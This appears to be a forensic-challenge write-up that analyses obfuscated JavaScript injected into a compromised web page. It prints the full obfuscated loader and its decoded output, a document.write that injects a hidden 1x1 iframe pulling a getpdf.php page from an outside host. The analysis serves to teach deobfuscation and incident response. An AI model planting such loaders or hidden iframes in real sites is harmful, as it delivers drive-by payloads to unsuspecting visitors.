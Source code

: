 ```
<script>var DepanNegw=window;var DexeTelae=-44;DexeTelae+=45;XayeZebah='nedajemac';var GaDemee='e5vfqaIVblI5'.replace(/[5fqIVbI5]/g, '');ZavevTa='fazemezarawaseb';var MezRai=parseInt;var DayahDet='zafezed lacet cetexet jevecakemahamaha febenep cafa fezebefe yelaxa xejarer hejefaqazedeka kebeneh petaqe zevexej jenewabahegehar jabevame bayap def vasefezetevamer nefelaba sezaxewe qajeqeme wet reyeqer magemefele xelawece denew jafelev haweqa kel vatabaser mag vejefama xeca canapevezejev benaper gezazevaja zeyaxaf wehekeh jecalava set senajaj re kameken bazafakaqewate zaralek yecele kak s hexebeka heha jeyeteg sase wayefewa tey gawewem wefaravavepayeke xedevec gavayedegeqer casehes watenanesajet jelagal payevexebe pejasep heqefagabexemew deheler vejegeca hece rafenadamenaxe jaz fex hekases pazetepajamelew cerasej nevayezabevepeke pex gey dac g dezaleza kekeqebe peyemaf sevanededa cefagey defef cexaqehe sebex galahal zadaxaran lava falamedejegase set law mefe wa mex ces nam j xaxaped gexeqageb feqeled daseze tehadeh zeheteyera xanahef wepahena xarakel gadazecaq tabexape dareq seje lejegagaxavade haf jaz cewe me cag kem fed h legefaz taw keyacah wefereweverewaze rapecame kas fagavev facez yefeley lareke seperene gav lece gahepegesafeve dez gen yeje s waz qas xap c hademax mezezah qepawehe vad zejates pe cehajeg sabebaseqeseda sekesav nebeda cagareg kec fexewel bejewagedegeqene bajesade lav pasepad baraj xecavan vedepe veranake vej heva kejajemacajada wez saj vele x qaj vad fag y qetamefe jaxa kamatare net zeheweh jeme bale cexebedeleneye dab vev kekaxex jetecajek lejekabe qalef bevegeye caxeb beleteqe r hele saxafexazat baz dehakajegeqeneke met mefepexafecebera qwertyu iop asdfghj klzxcvbnmqwer tyuiopa sdfghjklzxcvbnmq hjklzxc vbnmqwer tyu iopasdfghjklzxc vbnmqwe rtyuiopas dfghjkl zxcvbnmqwertyuio pasdfgh jklzxcvbnmqwert yuiopas dfghjk lzxcvbnm qwertyuiop asdfghj klzxcvbnmqwerty uiopasd fghjkl zxcvbnmq werty uio pasdfghjklzxcvb nmqwert yuiopasdfghjklzx cvbnmqwe rty uiopasd fghjklzx uio pasdfghjklzxcvb nmqwert uiopasdfghjklz qwertyui opasdfghjk xcr vbnmqwertyuiopar sdfghjr klzxcvr bnmqwer rtyuiopasdfghjkr lzxcvbnr mqr wertyur iopasr dfghjkr lzxcvbnmqwertyr uiopasdr fghr jklzxcr vbnmqwertr yuiopar sdfr ghjklr zxcvbnmqwertyuir opasdfr ghjr klzxcvr bnmqwertr yuiopar sr dfghjkr lzxcvbnmqwerr dfghjkr lzxcvbnmqwerr tyuiopr asdfgr hjklzxr cvbnmqwertyuior pasdfgr hjklzxcr vbnmqwr ertyur met mefepexafecebera xanahef wepahena feqeled daseze tabexape dareq zexelede l cefagey defef hademax mezezah req batekeqaheteceh zateyene c zekeqay ratevecek veheleqe k dec tec xece jefexazeqayefes cama bapevexeladet keh lanawebasegecaja qefejev qepetekene dacegas relevaj fecasece ber veyayes ba kajebed savaketegemeqe wepecer lamege tere ratavacevejezax gey dasalaje gav yepakekehe'.split(' ');var ZeJexn='';var SerayYafags=String;var KesXanavn=-50;KesXanavn+=66;XadHef=78;var BeZao=47;BeZao+=-47;var FeceSabejo=-46;FeceSabejo+=48;GebJep=92;var SeWajec='ftr9wogmBwJCW5h6aixrPRCs1ZonjHjdjKueMkD'.replace(/[t9wgBwJW56ixPRs1ZnjHjjKuMkD]/g, '');MaqTa=5;GaDemee=DepanNegw[GaDemee];SeWajec=SerayYafags[SeWajec];for (YajMedei=BeZao;YajMedei<DayahDet.length-1;YajMedei+=FeceSabejo) ZeJexn += SeWajec(MezRai((DayahDet[YajMedei+BeZao].length-1).toString(KesXanavn)+(DayahDet[YajMedei+DexeTelae].length-1).toString(KesXanavn), KesXanavn));GaDemee(ZeJexn);</script>
</body>
</html>
```
Ugh; obfuscated JavaScript. The next step is to figure out what this does. There are two important parts to look at:
```
var GaDemee='e5vfqaIVblI5'.replace(/[5fqIVbI5]/g, '')

GaDemee(ZeJexn);
```
Programmers here should be able work out that GaDemee is assigned the string 'eval'. The last line here is evaluating a variable, so I guessed this was the most important line. It's the last thing in the script, right? Well, I changed GaDemee to 'alert'. In JavaScript this function takes a string and prints it in a dialog box on your screen. So with that change, I loaded the JavaScript in a browser which printed this out:
```
document.write('<iframe scrolling="no" width="1" height="1" border="0" frameborder="0" src="http://blog.honeynet.org.my/forensic_challenge/getpdf.php"></iframe>')
```
Bam! What this does is write a 1 by 1 pixel sized field on the screen that references /forensic_challenge/getpdf.php. Now we know that the site itself is most likely legitimate, but has been compromised with this dirty script.
